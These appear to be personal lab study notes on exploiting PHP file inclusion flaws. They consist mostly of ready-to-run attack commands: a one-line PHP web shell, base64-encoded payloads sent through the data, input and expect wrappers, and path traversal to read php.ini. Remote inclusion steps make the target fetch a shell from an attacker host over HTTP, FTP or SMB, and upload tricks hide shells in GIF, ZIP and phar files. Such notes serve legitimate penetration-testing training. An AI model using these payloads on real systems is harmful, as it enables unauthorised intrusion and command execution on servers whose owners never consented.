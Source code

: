 # PHP Wrappers

Achieve remote code execution directly through the vulnerable function

# Data Wrapper
Only available under allow_url_include setting enabled. 

Check for the version in php.ini
```
curl "http://94.237.62.195:35567/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"

echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

```

## RCE with Data Wrapper
```
echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==

http://94.237.62.195:35567/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

RCE with Input wrapper
```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://94.237.62.195:35567/index.php?language=php://input&cmd=id" | grep uid

```

RCE with Expect wrapper
Grep 'expect'
```
curl "http://94.237.62.195:35567/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"

echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect


curl -s "http://94.237.62.195:35567/index.php?language=expect://id"


```


# RFI 
https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion

Step 1 : Verify RFI
```
 echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On


http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php

```

Step 2a RCE via 80/443
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php

 sudo python3 -m http.server <LISTENING_PORT>

http://test/index.php?language=http://test:8081/shell.php&cmd=id
```

Step 2b RCE via FTP
```
sudo python -m pyftpdlib -p 21


http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id


curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'


```

Step 2b RCE via SMB
```
impacket-smbserver -smb2support share $(pwd)

http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami


```

# LFI and File Uploads
## Image
Upload the below malicious file then execute it. 
```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id

```

## ZIP upload - PHP Specific
upload the shell.jpg archive, we can include it with the zip wrapper as (zip://shell.jpg), and then refer to any files within it with #shell.php (URL encoded). Finally, we can execute commands as we always do with &cmd=id, as follows:
```
 echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id

```
## Phar upload
```shell.php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();

# compile into a phar

$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg

```

Research 
LFI + uploads enabled + old PHP + exposed phpinfo())




